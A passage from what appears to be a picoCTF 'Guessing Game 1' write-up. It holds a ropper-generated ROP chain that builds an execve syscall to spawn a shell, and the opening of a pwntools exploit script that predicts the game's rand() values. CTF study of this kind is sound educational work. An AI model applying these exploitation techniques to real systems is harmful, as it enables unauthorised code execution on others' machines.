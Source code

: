 ```console
rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e0)
rop += rebase_0(0x0000000000010ca3) # 0x0000000000410ca3: pop rsi; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x000000000004cc26) # 0x000000000044cc26: pop rdx; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x00000000000163f4) # 0x00000000004163f4: pop rax; ret;
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000049e35) # 0x0000000000449e35: syscall; ret;
print rop
[INFO] rop chain generated!
(ropper) root@kali:/media/sf_CTFs/pico/Guessing_Game_1# deactivate
```

We can incorporate this ROP chain into the following `pwntools` script:
```python
# First, generate a template via:
# $ pwn template --host jupiter.challenges.picoctf.org --port 28951 ./vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)


from struct import pack
import c_rand

class GuessingGame1():
    def __init__(self, io):
        self.io = io
        self.rand = c_rand.rand_gen()

    def guess(self, guess_val):
        self.io.recvuntil("What number would you like to guess?\n")
        log.debug("Guessing: '{}'".format(guess_val))
        self.io.sendline(guess_val)
        line = self.io.recvline()
        if not "Congrats!" in line.decode("ascii"):
            raise RuntimeError("Incorrect guess: {}".format(guess_val))

    def enter_name(self, name):
        log.debug("Entering name: '{}'".format(name))
        self.io.sendline(name)
```